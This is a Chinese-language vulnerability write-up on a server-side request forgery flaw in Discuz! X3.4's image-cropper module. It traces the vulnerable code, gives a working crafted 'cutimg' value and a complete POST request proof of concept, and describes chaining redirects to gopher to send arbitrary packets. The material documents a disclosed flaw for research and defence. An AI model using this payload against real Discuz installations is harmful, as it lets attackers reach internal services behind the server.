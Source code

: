Discuz! X3.4 imgcropper ssrf
============================

一、漏洞简介
------------

对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host
的请求，总的来说比较鸡肋

二、漏洞影响
------------

三、复现过程
------------

`source/class/class_image.php` `image`类`init`方法：

        function init($method, $source, $target, $nosuffix = 0) {
            global $_G;

            $this->errorcode = 0;
            if(empty($source)) {
                return -2;
            }
            $parse = parse_url($source);
            if(isset($parse['host'])) {
                if(empty($target)) {
                    return -2;
                }
                $data = dfsockopen($source);
                $this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');
                if(!$data || $source === FALSE) {
                    return -2;
                }
                file_put_contents($source, $data);
            }
            ......
      }

再找哪些地方调用了`image`类的`init`方法，发现`image`类的`Thumb`、`Cropper`、`Watermark`方法都调用了`init`。比如`Thumb`：

        function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {
            $return = $this->init('thumb', $source, $target, $nosuffix);
            ......
        }

所以再找哪些地方调用了`image`类的`Thumb`方法，最终发现：

`source/module/misc/misc_imgcropper.php` 52-57行：

        require_once libfile('class/image');
        $image = new image();
        $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];
        if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {
            showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));
        }

下断点调试发现 `$_G['setting']['ftp']['attachurl']` 的值为 `/`，而
`$_G['setting']['attachurl']` 的值是 `data/attachment/`。所以似乎
`$prefix` 为 `/` 才有 SSRF 利用的可能。

一开始构造 `cutimg=/10.0.1.1/get`，这样 `$url` 的值就为
`//10.0.1.1/get`，按道理来说这应该算是一个正常的
url，但是结果却请求失败了。

仔细跟进 `_dfsockopen` 发现，在 PHP 环境安装有 cURL 时，进入 curl
处理的代码分支，直到这里：

    curl_setopt($ch, CURLOPT_URL, $scheme.'://'.($ip ? $ip : $host).($port ? ':'.$port : '').$path);

`$scheme`、`$host`、`$port`、`$path` 都是 `parse_url` 解析 url
参数后的对应的值，而对像 `//10.0.1.1/get` 这样的 url 解析时，`$scheme`
的值是 `null`，因此最后拼接的结果是 `://10.0.1.1/get`，没有协议，curl
最后对这种url的请求会自动在前面加上 `HTTP://`，结果就变成了请求
`HTTP://://10.0.1.1/get`，这种 url 在我的环境中会导致 curl 报错。

所以我去掉了 curl 扩展，让 `_dfsockopen` 函数代码走 socket
发包的流程，踩了 `parse_url` 和 Dz
代码的一些坑点（这里就不展开了，有兴趣的同学调下代码就知道了），最后发现像这样构造可以成功：

    cutimg=/:@localhost:9090/dz-imgcropper-ssrf

poc:

    POST /misc.php?mod=imgcropper&picflag=2&cutimg=/:@localhost:9090/dz-imgcropper-ssrf HTTP/1.1
    Host: ubuntu-trusty.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Cookie: xkmD_2132_sid=E5sbVr; xkmD_2132_saltkey=m6Y8022s; xkmD_2132_lastvisit=1521612483; xkmD_2132_lastact=1521624907%09misc.php%09imgcropper; xkmD_2132_home_readfeed=1521616105; xkmD_2132_seccode=1.ecda87c571707d3f92; xkmD_2132_ulastactivity=a0f4A9CWpermv2t0GGOrf8%2BzCf6dZyAoQ3Sto7ORINqJeK4g3xcX; xkmD_2132_auth=40a4BIESn2PZVmGftNQ2%2BD1ImxpYr0HXke37YiChA2ruG6OryhLe0bUg53XKlioysCePIZGEO1jmlB1L4qbo; XG8F_2132_sid=fKyQMr; XG8F_2132_saltkey=U7lxxLwx; XG8F_2132_lastvisit=1521683793; XG8F_2132_lastact=1521699709%09index.php%09; XG8F_2132_ulastactivity=200fir8BflS1t8ODAa3R7YNsZTQ1k262ysLbc9wdHRzbPnMZ%2BOv7; XG8F_2132_auth=3711UP00sKWDx2Vo1DtO17C%2FvDfrelGOrwhtDmwu5vBjiXSHuPaFVJ%2FC%2BQi1mw4v4pJ66jx6otRFKfU03cBy; XG8F_2132_lip=172.16.99.1%2C1521688203; XG8F_2132_nofavfid=1; XG8F_2132_onlineusernum=3; XG8F_2132_sendmail=1
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 36

    imgcroppersubmit=1&formhash=f8472648

此时 url 即为`//:@localhost:9090/dz-imgcropper-ssrf`。SSRF 请求成功：

![](./.resource/Discuz!X3.4imgcropperssrf/media/rId24.png)

通过这种方式进行构造利用的话，不太需要额外的限制条件（只要求服务端 PHP
环境没有安装 curl 扩展）￼，但是只能发 HTTP GET
请求，并且服务端不跟随跳转。漏洞危害有限。

后来 l3m0n 师傅也独立发现了这个漏洞，并且他发现较高版本的 curl
是可以成功请求 `HTTP://:/` 的，较高版本的 curl 会将这种 url 地址解析到
127.0.0.1 的 80 端口：

![](./.resource/Discuz!X3.4imgcropperssrf/media/rId25.jpg)

最后他再利用之前 PHP `parse_url` 的解析 bug（
[https://bugs.php.net/bug.php?id=73192](https://link.zhihu.com/?target=https%3A//bugs.php.net/bug.php%3Fid%3D73192)
），及利用 `parse_url` 和 curl 对 url 的解析差异，成功进行 302
跳转到任意恶意地址，最后再 302 跳转到 gopher
就做到发送任意数据包。详情可以参考 l3m0n 的博客：

[Discuz x3.4前台SSRF - l3m0n -
博客园](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/iamstudy/articles/discuz_x34_ssrf_1.html)

但是这种利用方式对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空
Host 的请求。总的来说，imgcropper SSRF 仍然比较鸡肋。
